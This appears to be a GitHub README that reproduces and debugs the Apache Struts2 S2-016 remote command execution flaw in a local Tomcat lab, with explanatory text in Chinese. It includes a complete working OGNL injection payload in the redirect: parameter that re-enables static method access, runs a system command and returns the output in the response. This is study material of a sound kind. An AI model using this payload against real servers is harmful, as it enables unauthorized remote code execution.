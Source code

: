 # S2-016 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.15`

Problem: 在`struts2`中，`DefaultActionMapper`类支持以`action:`、`redirect:`、`redirectAction:`作为导航或是重定向前缀，但是这些前缀后面同时可以跟`OGNL`表达式，由于`struts2`没有对这些前缀做过滤，导致利用`OGNL`表达式调用`java`静态方法执行任意系统命令。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709]({D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709.jpg)

Payload: 

```
http://localhost:8080/s2_016_war_exploded/index.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read%28%23d%29%2C%23genxor%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2C%23genxor.println%28%23d%29%2C%23genxor.flush%28%29%2C%23genxor.close%28%29%7D
```

## Debug

首先在`DefaultActionMapper`类中处理`redirect:`处下个断点：

`s2-016/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/mapper/DefaultActionMapper.class:70`

![image-20200724114013659](img/image-20200724113754527.png)

然后一直点击调试栏红色X的按钮（Drop frame），可以倒退执行过程，就大概了解流程是怎样的了。一直点击回到`struts2`的初始过滤器`FilterDispatcher`。

关注两点，第一是`redirect:<ognl>`是如何被处理的；第二，`payload`是如何被解析的。

在`FilterDispatcher`类的`dofilter()`函数下个断点，它负责拦截所有的用户请求。

`s2-016/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/FilterDispatcher.class:181`

![image-20200723111523847](img/dofilter.png)

`doFilter`先进行创建值栈、上下文、包装request等一些初始化操作，然后进入`getMapping()`方法，通过`uri`解析对应的action配置信息，例如`namespace`、`actionname`、`method`。跟进`getMapping()`：

![image-20200723111435992](img/getMapping.png)

`parseNameAndNamespace()`方法根据`uri`和配置文件中的`namespace`进行对比来判断`namespace`。`hadleSpecialParameters()`方法顾名思义是处理某些特殊参数。跟入`hadleSpecialParameters()`：

![image-20200723111152848](img/handleSpecialParameters.png)

首先获取到request中所有参数名，遍历看是否有以`.x`和`.y`结尾的参数名，`prefixTrie.get(key)`判断参数名是否都是有效字符。

再跟入`parameterAction.execute()`，可以看到`redirect.setLocation()`方法将`redirect:`后面的内容设置为了`location`。

![image-20200723115019593](img/redirect.png)

到这里第一个问题知道了，就是`redirect:`后面的`ognl`表达式进入了`location`参数。

再看看这个location什么时候被解析。回到`doFilter()`，继续往下进入`serviceAction()`：

![image-20200723145024705](img/execute.png)

先获取Configuration对象，通过Configuration得到容器对象，再从容器中获取`ActionProxyFactory`工厂类创建`ActionProxy`动态代理。

`mapping.getResult()`不为null，根据Result配置创建出相应的Result对象，然后执行Result的execute方法。跟入execute()：

```java
    public void execute(ActionInvocation invocation) throws Exception {
        this.lastFinalLocation = this.conditionalParse(this.location, invocation);
        this.doExecute(this.lastFinalLocation, invocation);
    }
```

到了熟悉的地方——`conditionalParse()`方法，该函数用于处理跳转地址location，会判断location是否有`ognl`表达式，有的话将会执行表达式。一直跟入`translateVariables()`，到`stack.findValue()`触发执行`ognl`表达式。

![image-20200723151111362](img/frame.png)

## Reference

- [S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016)
- [S2-016 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md)

